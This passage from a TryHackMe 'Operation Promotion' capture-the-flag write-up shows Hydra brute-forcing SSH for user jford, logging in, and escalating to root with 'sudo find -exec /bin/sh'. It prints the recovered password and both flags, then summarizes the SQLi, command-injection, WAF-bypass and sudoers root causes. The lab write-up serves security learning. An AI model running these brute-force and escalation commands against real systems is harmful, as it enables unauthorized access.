

```bash
hydra -l jford -P wordlist.txt 10.49.177.36 ssh
```
**Purpose:** Directly test the generated wordlist against the **live SSH service** as user `jford`. This sidesteps needing to crack the bcrypt hash at all — Hydra validates real login attempts instead.

**Result:**
```
[22][ssh] host: 10.49.177.36   login: jford   password: spring2026!
```



```bash
ssh jford@10.49.177.36
```
**Result:** Authenticated shell as `jford`.



```bash
cat user.txt
```
**Result:**
```
THM{bdbee0a91ebcb0b0fafde931223efe09}
```



---

### 10. Privilege Escalation — Sudo Misconfiguration (GTFOBins)

```bash
sudo -l
```
**Purpose:** Check what commands the current user can run as other users/root without a password. This revealed:

```
User jford may run the following commands on recruitcorp:
    (root) NOPASSWD: /usr/bin/find
```



```bash
sudo find . -exec /bin/sh -p \; -quit
```
**Purpose:** `find`'s `-exec` flag can spawn an arbitrary command. Since `find` is being run as `root` via `sudo`, the spawned shell inherits root privileges. `-p` preserves privileges in the spawned shell, and `-quit` stops after the first match. This is a documented [GTFOBins](https://gtfobins.github.io/gtfobins/find/) technique.

**Result:** Dropped into a root shell.

```bash
whoami              # root
find / -name "flag.txt" 2>/dev/null
cat /root/flag.txt
```
**Result:**
```
THM{d999a1f6319a9c5b48c067dfab314ba2}
```



---

## Other Details

- **Root cause of the SQLi:** direct string concatenation of `$_POST['username']` / `$_POST['password']` into a raw SQL query with no prepared statements or input escaping — confirmed directly from `index.php` source.
- **Root cause of the command injection:** `ping.php` almost certainly passes the `host` parameter straight into a shell execution function (e.g. `shell_exec`/`exec`/`system`) with no sanitization or allow-listing of characters.
- **WAF-like behavior encountered:** identical injection payloads sent via `curl` returned a generic `Forbidden`, while the same payloads sent through the browser succeeded. This was resolved by using `revshells.com` to generate a properly URL-encoded payload and firing it directly from the browser address bar, rather than continuing to fight `curl`'s request formatting. (Root cause wasn't conclusively isolated — likely related to request headers/User-Agent — but the browser-delivery workaround was reliable.)
- **Credential reuse pattern:** the plaintext web-app passwords followed a `pw_<initials>_<4digits>` pattern, which was a useful (though ultimately unused) lead before the homepage banner provided a more direct path to `jford`'s real password.
- **Privilege escalation vector:** an overly permissive `sudoers` entry (`NOPASSWD: /usr/bin/find`) is a well-known misconfiguration — `find`, like many other common binaries (`vim`, `less`, `awk`, `cp`, etc.), can break out to a shell when given `-exec`, making it unsafe to grant passwordless `sudo` access to.
- **Tools used throughout:** `nmap`, `gobuster`, `enum4linux`, `smbclient`, a browser (manual SQLi/IDOR testing), `revshells.com`, `penelope`, `hashcat` (rule-based wordlist generation), `hydra`, `ssh`, GTFOBins (`find`).

---

## Reference

- **Room:** [TryHackMe — Operation Promotion](https://tryhackme.com/room/operationpromotion)
- **Video walkthrough:** [YouTube](https://www.youtube.com/watch?v=FETeyhdS-IE)
- **Other write-up referenced:** [0xb0b — Operation Promotion](https://0xb0b.gitbook.io/writeups/tryhackme/2026/operation-promotion#shell-as-jford)
- **GTFOBins (find):** https://gtfobins.github.io/gtfobins/find/
